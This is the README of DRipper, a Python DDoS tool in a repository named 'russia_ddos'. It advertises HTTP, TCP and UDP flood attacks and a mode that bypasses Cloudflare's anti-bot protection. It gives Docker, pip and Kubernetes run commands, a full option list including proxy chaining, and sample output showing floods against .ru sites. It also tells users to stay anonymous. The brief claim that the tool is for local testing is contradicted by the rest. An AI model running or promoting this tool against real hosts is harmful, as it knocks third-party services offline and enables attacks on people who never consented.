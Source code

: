 # DRipper

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]
[![License: MIT][license badge]][license link]

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or higher
- Docker (optional) if you'd like to run script with docker

## Features

### Attacks

- HTTP Flood - OSI Layer 7 method volumetric attack type
- HTTP Bypass - OSI Layer 7 method volumetric attack type with to bypass Cloudflare's anti-bot page (also known as "I'm Under Attack Mode", or IUAM)
- TCP Flood - OSI Layer 4 method volumetric attack type
- UDP Flood - OSI Layer 4 method volumetric attack type

### Other features

- Multiple targets support - the script can attack multiple targets at the same time
- Detailed statistics with deep attack log for better attack analysis during the attack
- Display average request rate and throughput
- Periodic checks of your public IP address to ensure your privacy and VPN connection survivability.
- Automatic and periodic checks for the availability of the attacked host
- Distributed statistics of the response code for the attacked host, which helps you to understand the effectiveness of attacks
- Detection of redirects and rate limits with alerts in the event log

## How it looks

```bash
───────────────────────────────────────── Starting DRipper ─────────────────────────────────────────
[23:17:39] (1/3) tcp://www.site1.ru:80/ (192.168.0.101:80) Trying to connect...      services.py:135
           (1/3) tcp://www.site1.ru:80/ (192.168.0.101:80) Connected                 services.py:138
           (1/3) https://www.site2.ru:443/ (192.168.0.102:443) Trying to connect...  services.py:135
           (1/3) https://www.site2.ru:443/ (192.168.0.102:443) Connected             services.py:138
────────────────────────────────────────────────────────────────────────────────────────────────────


                        ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
                        ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
                        ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
                        ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
                        ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
                        ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                                                    v2.5.0

                  It is the end user's responsibility to obey all applicable laws.
                  It is just like a server testing script and Your IP is visible.
                                Please, make sure you are ANONYMOUS!

                             https://github.com/Alanz-Host/DDoSX


 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Description                                 Status
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Start Time, Duration                        2022-04-08 23:17:29  (0:00:14)
  Your Country, Public IP                     DK   45.***.***.***
  Total Threads                               200
  vCPU Count                                  8
  Socket Timeout (seconds)                    1
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Target (tcp://www.site1.ru:80/)             1/2 (next in 1)
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  Country, Host IP                            RU  192.168.0.101:80 (target-0)
  Attack Method                               TCP-FLOOD
  Random Packet Length (bytes)                From 1 to 1024
  Threads                                     100
  CloudFlare Protection                       Not protected
  Availability (check-host.net)               ...detecting (TCP method)
  Sent Bytes @ AVG speed                      1.73 MB @ 119.76 kB/s
  Sent Packets @ AVG speed                      3,531 @ 238 packets/s
  Connections                                 success: 100, failed: 0, success rate: 100 %
 ──────────────────────────────────────────────────────────────────────────────────────────────────

  Events Log
 ──────────────────────────────────────────────────────────────────────────────────────────────────
  [23:17:40]   info   target-0  thread-14   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-114  Creating new TCP connection...
  [23:17:40]   info   target-0  thread-16   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-20   Creating new TCP connection...
  [23:17:40]   info   target-0  thread-22   Creating new TCP connection...

                                 Press CTRL+C to interrupt process.

                                         #StandWithUkraine
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `dripper --help` to see detailed params description.

```bash
Usage: DRipper.py [options] arg

Options:
  --version                                             show program's version number and exit
  -h, --help                                            show this help message and exit
  -s TARGETS, --targets=TARGETS                         Attack target in {scheme}://{hostname}[:{port}][{path}] format.
                                                        Multiple targets allowed.
  -m ATTACK_METHOD, --method=ATTACK_METHOD              Attack method: udp-flood, tcp-flood, http-flood, http-bypass
  -e HTTP_METHOD, --http-method=HTTP_METHOD             HTTP method. Default: GET
  -t THREADS_COUNT, --threads=THREADS_COUNT             Total threads count. Default: 100
  --min-random-packet-len=MIN_RANDOM_PACKET_LEN
                                                        Min random packets length. Default: 1 for udp/tcp
  -l MAX_RANDOM_PACKET_LEN, --max-random_packet-len=MAX_RANDOM_PACKET_LEN
                                                        Max random packets length. Default: 1024 for udp/tcp
  -y PROXY_LIST, --proxy-list=PROXY_LIST                File (fs or http/https) with proxies in
                                                        ip:port:username:password line format. Proxies will be ignored
                                                        in udp attack!
  -k PROXY_TYPE, --proxy-type=PROXY_TYPE                Type of proxy to work with. Supported types: socks5, socks4,
                                                        http. Default: socks5
  -c HEALTH_CHECK, --health-check=HEALTH_CHECK          Controls health check availability. Turn on: 1, turn off: 0.
                                                        Default: 1
  -o SOCKET_TIMEOUT, --socket-timeout=SOCKET_TIMEOUT    Timeout for socket connection is seconds. Default (seconds): 1
                                                        without proxy, 2 with proxy                                                    
  --dry-run                                             Print formatted output without full script running.
  --log-size=LOG_SIZE                                   Set the Events Log history frame length.
  --log-level=EVENT_LEVEL                               Log level for events board. Supported levels: info, warn, error,
                                                        none.
  -d DURATION_SECONDS, --duration=DURATION_SECONDS      Attack duration in seconds. After this duration script will 
                                                        stop its execution.                                                   

Example: dripper -t 100 -m tcp-flood -s tcp://192.168.0.1:80
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -t 100 -m http-flood -s http://127.0.0.1:80 
# or
docker run -it --rm alexmon1989/dripper:latest -t 100 -s http://127.0.0.1:80
# or even
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -t 100 -l 2048 -s tcp://127.0.0.1:80 

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -t 100 -l 2048 -s udp://127.0.0.1:80 
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install dependencies
python3 -m pip install --upgrade pip git+https://github.com/alexmon1989/russia_ddos.git
# Run script
dripper -t 100 -s udp://127.0.0.1:80


# ===== Alternative variant =====

# Install python dependencies:
pip install -r requirements.txt
# Run script
python3 DRipper.py -t 100 -s udp://127.0.0.1:80
```

#### Kubernetes

You can deploy and run DRipper in Kubernetes cluster using [kube-dripper][kube-dripper-link] terraform configuration.
For details - see the [README][kube-dripper-readme] from **kube-dripper** project.

## How to run unit tests

#### Prepare
```bash
pip install -r requirements.test.txt
```

#### Run
```bash
pytest

# with code coverage report:
pytest --cov-report=html:./htmlcov
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.
